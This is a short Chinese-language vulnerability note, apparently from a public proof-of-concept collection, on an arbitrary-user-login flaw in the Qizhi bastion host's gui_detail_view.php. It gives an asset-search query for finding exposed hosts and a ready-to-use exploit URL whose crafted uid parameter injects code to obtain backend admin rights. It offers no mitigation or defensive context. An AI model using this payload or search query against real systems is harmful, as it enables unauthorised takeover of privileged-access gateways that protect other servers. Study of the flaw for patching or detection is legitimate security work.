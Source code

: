 # 齐治堡垒机 gui_detail_view.php 任意用户登录漏洞

## 漏洞描述

齐治堡垒机 存在任意用户登录漏洞，访问特定的Url即可获得后台权限

## 漏洞影响

```
齐治堡垒机
```

## 网络测绘

```
app="齐治科技-堡垒机"
```

## 漏洞复现

漏洞POC为

```plain
http://xxx.xxx.xxx.xxx/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=shterm
```



![](./images/202202101931947.png)

## 